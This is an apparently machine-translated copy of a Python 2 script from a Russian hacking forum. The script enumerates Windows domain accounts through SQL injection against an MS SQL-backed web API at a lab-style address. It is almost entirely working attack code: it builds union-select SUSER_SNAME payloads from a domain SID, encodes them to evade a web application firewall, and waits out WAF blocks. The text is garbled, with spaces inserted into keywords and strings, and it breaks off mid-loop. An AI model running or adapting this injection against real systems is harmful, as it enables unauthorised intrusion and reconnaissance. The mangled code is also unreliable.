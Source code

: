 [https://translate.google.com/translate?hl=en&sl=ru&u=https://lolz.guru/threads/1537485/&prev=search&pto=aue](https://translate.google.com/translate?hl=en&sl=ru&u=https://lolz.guru/threads/1537485/&prev=search&pto=aue)

```python
#! / usr / bin / env python
#This script enumerates domain users through MS SQL Server
#Requires the SID of the domain
import requests
import re
import json
import time
from termcolor import colored

def little (s):
    try:
        t = bytearray.fromhex (s)
        t.reverse ()
        return "" .join (format (x, "02x") for x in t) .upper ()
    except:
        print colored ("[i] Finished, Domain Accounts are over", "blue")
        exit (0)

if __name__ == "__main__":
    i = 1100
    SID = "0x0105000000000005150000001C00D1BCD181F1492BDFC236"
    #SID = raw_input ("Enter SID:")
    URL = "http://10.10.10.179/api/getColleagues"
    #URL = raw_input ("Enter URL:")

    print colored ("\ n \ t + ------------------------------------------ ---------------------------- + "," magenta ")
    print colored ("\ t | |", "magenta")
    print colored ("\ t | Enumerating Script For Domain Accounts by M0NET |", "magenta")
    print colored ("\ t | SID:" + SID + "|", "magenta")
    print colored ("\ t | |", "magenta")
    print colored ("\ t + -------------------------------------------- -------------------------- + \ n \ n "," magenta ")

    for x in range (1100,6100,1000):
        for i in range (15):
            JUNK = "0" + hex ((x + i)) [2:]. Upper ()
            RID = SID + little (JUNK) + 4 * "0"
            payload = "- 'union select 1,2,3,4, SUSER_SNAME ({}) - -". format (RID)
            #payload = raw_input ("Enter Payload:")
            pattern = re.compile (r "([0-9a-f] {2})")
            encpyload = pattern.sub (r "\\ u00 \ 1", payload.encode ("hex"))
            r = requests.post (URL, data = '{"name": "' + encpyload + '"}', headers = {"Content-Type": "application / json; charset = utf-8"})
            if "403 - Forbidden: Access is denied." in r.text:
                print colored ("[-] Sleeping until WAF cooldown", "red")
                time.sleep (10)
                continue
            if "\\" in r.text:
                print colored ("[i] Counter:" + format ((x + i)), "blue")
                print colored ("[+] RID:" + format (RID), "green")
                print colored ("[+] Pyload:" + payload, "green")
                #print colored ("[+] Encoded payload:" + format (encpayload), "green")
                print colored ("\ n" + r.text, "yellow")

            jsona = json.loads (r.text)
            if jsona:
                try:
                    for element in jsona:
```